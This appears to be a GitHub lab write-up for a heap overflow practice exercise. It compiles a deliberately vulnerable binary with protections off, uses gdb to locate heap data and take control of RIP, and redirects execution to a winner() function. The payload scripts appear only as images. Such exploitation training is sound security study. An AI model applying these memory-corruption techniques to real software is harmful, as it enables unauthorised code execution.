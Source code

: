 ## Heap Overflow Practice
___
### Description
Heap overflow is a common vulnerability that can be exploited to gain code execution. This lab will walk you through the process of exploiting a heap overflow vulnerability.
___
### Setup
Ubuntu 22.04.3 LTS
gcc version 11.3.0 (Ubuntu 11.3.0-1ubuntu1~22.04)
gbd version 12.0.90

___
### Exploitation

#### Step 1: Compile the vulnerable program
Compile the vulnerable program with the following command:
```
gcc heap0.c -w -g -no-pie -z execstack -o heap0
./heap0 HELLO
./heap0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![Gcc compile](img/compile.png)
___
#### Step 2: Examine the source code
We observe the memory allocation for the heap overflow vulnerability.
```
gdb ./heap0
list 25,40
b 38
run AAAA
info proc map
```
My heap allocation is in address 0x405000

![Observe Heap](img/heap_observe.png)
___
#### Step 3: Find the "AAAA" string in memory
```
x/240x 0x405000
```
We can see the register with string "AAAA" (0x41414141) 0x4052a0

![Find String](img/string_mem.png)
___
#### Step 4: Find the return address of nowinner()
```
disassemble nowinner
```
We can see NoWinner Address in 0x004011b4 (0x4052f0)

![Disassemble NoWinner](img/disass_nowinner.png)
___
### Step 5: Observing Crash
h1 Script:
![H1](img/h1.png)
```
./heap0 $(./h1)
```
![crash](img/crash.png)
___
### Step 6: Controlling RIP
h2 Script:
![H2](img/h2.png)
```
gdb -q ./heap0
run $(./h2)
info registers
```
We can see the RIP register is 0x40124c

![rip](img/rip.png)
___
### Step 7: Targeting the RIP
h3 Script:
![H3](img/h3.png)
```
gdb -q ./heap0
run $(./h3)
info registers
```
![rip2](img/target_rip.png)

We can see that we have correctly targeted the RIP register. 
**CDEF => 0x46454443**
___
### Step 8: Finding the address to Inject
We need to find the address of the shellcode we want to inject into the program. We can use the following command to find the address of the shellcode:
```
disassemble winner
```
![disass_winner](img/disass_winner.png)
___
### Step 9: Creating the injecting Shellcode
h4 Script:
![H4](img/h4.png)
**Be carefull with the endian**
The address winner address is 0x0040119a
So, we add String inverted "\x9a\x11\x40\x00"
___
### Step 10: Injecting the Shellcode
We execute the following command to inject the shellcode into the program:
```
./heap0 $(./h4)
```
![inject](img/inject.png)
**LEVEL PASSED!!**
**HEAP OVERFLOW VULNERABILITY EXPLOITED!!**
___
